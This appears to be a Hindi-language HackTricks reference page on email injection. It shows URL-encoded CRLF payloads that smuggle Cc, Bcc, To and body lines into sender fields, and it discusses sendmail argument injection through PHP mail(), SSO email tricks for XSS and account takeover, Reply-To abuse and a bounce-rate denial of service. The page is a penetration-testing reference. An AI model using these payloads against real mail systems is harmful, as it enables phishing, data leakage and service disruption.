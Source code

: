 # ईमेल इंजेक्शन्स

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) का उपयोग करके दुनिया के **सबसे उन्नत** समुदाय उपकरणों द्वारा संचालित **वर्कफ्लोज़ को आसानी से बनाएं और स्वचालित करें**।\
आज ही पहुंच प्राप्त करें:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## भेजे गए ईमेल में इंजेक्ट करें

### प्रेषक तर्क के बाद Cc और Bcc इंजेक्ट करें
```
From:sender@domain.com%0ACc:recipient@domain.co,%0ABcc:recipient1@domain.com
```
संदेश प्राप्तकर्ता और प्राप्तकर्ता1 खातों को भेजा जाएगा।

### Inject तर्क
```
From:sender@domain.com%0ATo:attacker@domain.com
```
संदेश मूल प्राप्तकर्ता और हमलावर खाते को भेजा जाएगा।

### Inject Subject तर्क
```
From:sender@domain.com%0ASubject:This is%20Fake%20Subject
```
### संदेश के शरीर में परिवर्तन करें

दो पंक्ति फीड इंजेक्ट करें, फिर अपना संदेश लिखें ताकि संदेश के शरीर में परिवर्तन किया जा सके।
```
From:sender@domain.com%0A%0AMy%20New%20%0Fake%20Message.
```
### PHP mail() फंक्शन का शोषण
```bash
# The function has the following definition:

php --rf mail

Function [ <internal:standard> function mail ] {
- Parameters [5] {
Parameter #0 [ <required> $to ]
Parameter #1 [ <required> $subject ]
Parameter #2 [ <required> $message ]
Parameter #3 [ <optional> $additional_headers ]
Parameter #4 [ <optional> $additional_parameters ]
}
}
```
#### 5वां पैरामीटर ($additional\_parameters)

यह खंड **इस पैरामीटर का दुरुपयोग करने पर आधारित होगा यदि एक हमलावर इसे नियंत्रित करता है**।

यह पैरामीटर PHP द्वारा sendmail बाइनरी को आह्वान करने के लिए उपयोग की जाने वाली कमांड लाइन में जोड़ा जाएगा। हालांकि, इसे `escapeshellcmd($additional_parameters)` फंक्शन के साथ सैनिटाइज किया जाएगा।

एक हमलावर इस मामले में sendmail के लिए **अतिरिक्त पैरामीटर्स इंजेक्ट कर सकता है**।

#### /usr/sbin/sendmail के कार्यान्वयन में अंतर

**sendmail** इंटरफेस **MTA ईमेल सॉफ्टवेयर** (Sendmail, Postfix, Exim आदि) द्वारा प्रदान किया जाता है जो सिस्टम पर स्थापित होता है। हालांकि, **मूल कार्यक्षमता** (जैसे कि -t -i -f पैरामीटर्स) संगतता कारणों से **समान** रहती है, **अन्य फंक्शन्स और पैरामीटर्स** MTA पर निर्भर करते हुए काफी भिन्न होते हैं।

यहां sendmail कमांड/इंटरफेस के विभिन्न मैन पेजेस के कुछ उदाहरण दिए गए हैं:

* Sendmail MTA: http://www.sendmail.org/\~ca/email/man/sendmail.html
* Postfix MTA: http://www.postfix.org/mailq.1.html
* Exim MTA: https://linux.die.net/man/8/eximReferences

sendmail बाइनरी के **मूल के आधार पर** विभिन्न विकल्पों की खोज की गई है जिनका दुरुपयोग करके **फाइलें लीक की जा सकती हैं या यहां तक कि मनमाने कमांड्स भी निष्पादित किए जा सकते हैं**। जांचें कैसे [**https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html**](https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html) में

## ईमेल नाम में इंजेक्ट करें

### ईमेल के अनदेखे हिस्से

प्रतीक: **+, -** और **{}** दुर्लभ अवसरों पर टैगिंग के लिए उपयोग किए जा सकते हैं और अधिकांश ई-मेल सर्वरों द्वारा अनदेखा किए जाते हैं

* उदा. john.doe+intigriti@example.com → john.doe@example.com

**कोष्ठकों () के बीच टिप्पणियां** शुरुआत या अंत में भी अनदेखी की जाएंगी

* उदा. john.doe(intigriti)@example.com → john.doe@example.com

### व्हाइटलिस्ट बायपास

<figure><img src="../.gitbook/assets/image (4) (6).png" alt=""><figcaption></figcaption></figure>

### उद्धरण

<figure><img src="../.gitbook/assets/image (6) (4).png" alt=""><figcaption></figcaption></figure>

### IPs

आप वर्गाकार कोष्ठकों के बीच डोमेन नाम के रूप में IPs का भी उपयोग कर सकते हैं:

* john.doe@\[127.0.0.1]
* john.doe@\[IPv6:2001:db8::1]

### अन्य वल्न्स

![](<../.gitbook/assets/image (296).png>)

## तृतीय पक्ष SSO

### XSS

कुछ सेवाएं जैसे कि **github** या **salesforce** आपको इसमें XSS पेलोड्स के साथ एक **ईमेल पता बनाने की अनुमति देती हैं**। यदि आप इन प्रदाताओं का उपयोग करके अन्य सेवाओं में लॉगिन कर सकते हैं और ये सेवाएं ईमेल को सही ढंग से सैनिटाइज नहीं कर रही हैं, तो आप **XSS** का कारण बन सकते हैं।

### खाता-अधिग्रहण

यदि कोई **SSO सेवा** आपको दिए गए ईमेल पते की पुष्टि किए बिना एक खाता बनाने की अनुमति देती है (जैसे कि **salesforce**) और फिर आप उस खाते का उपयोग करके एक अलग सेवा में लॉगिन कर सकते हैं जो salesforce पर **विश्वास** करती है, तो आप किसी भी खाते तक पहुंच सकते हैं।\
_नोट करें कि salesforce यह संकेत देता है कि दिया गया ईमेल पुष्टि किया गया था या नहीं लेकिन इसलिए एप्लिकेशन को इस जानकारी को ध्यान में रखना चाहिए।_

## रिप्लाई-टू

आप _**From: company.com**_ का उपयोग करके एक ईमेल भेज सकते हैं और _**Replay-To: attacker.com**_ और यदि कोई **स्वचालित उत्तर** भेजा जाता है क्योंकि ईमेल **आंतरिक पते** से भेजा गया था तो **हमलावर** उस **प्रतिक्रिया** को **प्राप्त** कर सकता है।

## हार्ड बाउंस रेट

कुछ एप्लिकेशन जैसे कि AWS में एक **हार्ड बाउंस रेट** होता है (AWS में यह 10% है), जब भी यह अधिक होता है तो ईमेल सेवा अवरुद्ध हो जाती है।

एक **हार्ड बाउंस** एक **ईमेल** होता है जिसे कुछ स्थायी कारणों से वितरित नहीं किया जा सका। शायद **ईमेल** का पता नकली है, शायद **ईमेल** डोमेन एक वास्तविक डोमेन नहीं है, या शायद **ईमेल** प्राप्तकर्ता का सर्वर **ईमेल** स्वीकार नहीं करेगा), इसका मतलब है कि कुल 1000 ईमेलों में से अगर 100 नकली थे या अमान्य थे जिससे सभी बाउंस हो गए, **AWS SES** आपकी सेवा को अवरुद्ध कर देगा।

इसलिए, यदि आप वेब एप्लिकेशन से किसी भी ईमेल पते पर **मेल भेजने में सक्षम हैं (शायद निमंत्रण), तो आप गैर-मौजूद उपयोगकर्ताओं और डोमेनों को सैकड़ों निमंत्रण भेजकर इस अवरोध को उत्पन्न कर सकते हैं: ईमेल सेवा DoS।**

## संदर्भ

* [https://resources.infosecinstitute.com/email-injection/](https://resources.infosecinstitute.com/email-injection/)
* [https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html](https://exploitbox.io/paper/Pwning-PHP-Mail-Function-For-Fun-And-RCE.html)
* [https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view](https://drive.google.com/file/d/1iKL6wbp3yYwOmxEtAg1jEmuOf8RM8ty9/view)
* [https://www.youtube.com/watch?app=desktop\&v=4ZsTKvfP1g0](https://www.youtube.com/watch?app=desktop\&v=4ZsTKvfP1g0)

<details>

<summary><strong>AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो करें।**
* **HackTricks** के लिए अपनी हैकिंग ट्रिक्स साझा करें [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) का उपयोग करके आसानी से **वर्कफ्लोज़ को बिल्ड और ऑटोमेट** करें जो दुनिया के **सबसे उन्नत** समुदाय टूल्स द्वारा संचालित होते हैं।\
आज ही एक्सेस प्राप्त करें:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source
